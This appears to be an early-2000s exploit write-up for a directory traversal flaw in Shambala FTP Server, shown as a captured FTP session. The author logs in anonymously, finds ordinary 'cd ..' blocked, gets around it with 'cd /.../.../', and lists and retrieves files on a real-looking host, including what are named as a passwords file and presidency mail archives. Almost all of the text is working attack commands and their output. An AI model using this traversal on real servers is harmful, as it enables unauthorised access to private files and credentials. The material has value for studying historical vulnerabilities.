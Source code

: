EXP
---

    alt3kx@machine:/tmp$ ftp 1.xx.xx.xx
    Connected to 1.xx.xx.xx.
    220 1.xx.xx.xx - Shambala FTP Server Ready.
    Name (1.xx.xx.xx:Administrator): anonymous
    331 Password required for anonymous.
    Password:
    230 User anonymous logged in.
    ftp> cd ..
    550 Requested action not taken. Permission denied.
    ftp> pwd
    257 "/" is current directory.
    ftp> dir
    200 PORT command successful.
    150 Opening data connection.
      d---------    owner    group          0   21-maj-01 17:50   1.xx.xx.xx
      ----------    owner    group        283   21-maj-01 17:55
    index-_-1_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-2_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-3_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-4_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-5_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-6_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-7_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-8_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-9_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-10_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-11_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-12_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-13_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-14_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-15_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_-16_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_0_0_0.htm
      ----------    owner    group        283   21-maj-01 17:55
    index-_0_0_-1.htm
      ----------    owner    group        283   21-maj-01 17:55   .htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-2.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-3.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-4.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-5.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-6.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-7.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-8.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-9.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-10.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-11.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_0_-12.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_0_-1_-11.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_1_0_-11.htm
      ----------    owner    group        283   21-maj-01 18:08
    index-_-1_0_-11.htm

    226 Transfer complete
    ftp> cd ../
    550 Requested action not taken. Permission denied.
    ftp>

    EXPLOIT... ...

    ftp> cd /.../.../
    257 CWD command successful.
    ftp> dir
    200 PORT command successful.
    150 Opening data connection.
      ----------    owner    group      15444   04-maj-01 14:26   SCAN.log
      ----------    owner    group     140340   04-maj-01 14:05
    MAILS-PRESIDENCIA.txt
      ----------    owner    group     466944   18-sep-99 09:32   Shambala.exe
      ----------    owner    group       3564   21-maj-01 17:48   ST6UNST.LOG
      ----------    owner    group         31   21-maj-01 17:50
    passwordsxxx.txt
      d---------    owner    group          0   21-maj-01 17:50   Web
    226 Transfer complete.
    ftp>


    ftp> cd /.../.../.../.../
    257 CWD command successful.
    ftp> dir
    200 PORT command successful.
    150 Opening data connection.
      ----------    owner    group     246928   18-jan-01 13:10   N6Setup.exe
      d---------    owner    group          0   18-jan-01 15:39   Netscape 6
      d---------    owner    group          0   18-jan-01 14:50   Netscape 6
    Setup
      ----------    owner    group    3209110   19-jan-01 10:51   getrgt.exe

    .
    .
    .
    .
    .

      ----------    owner    group        168   21-maj-01 19:07
    raza-alt3kx.txt

    ftp> get raza-alt3kx.txt
    200 PORT command successful.
    150 Opening data connection.
    226 Transfer complete.
    168 bytes received in 0 seconds (168 bytes/s)
    ftp> quit
    221 Goodbye.


    alt3kx@machine:/tmp$ cat raza-alt3kx.txt


    Bug discovered by alt3kx! <alt3kx@raza-mexicana.org>


    alt3kx@machine:/tmp$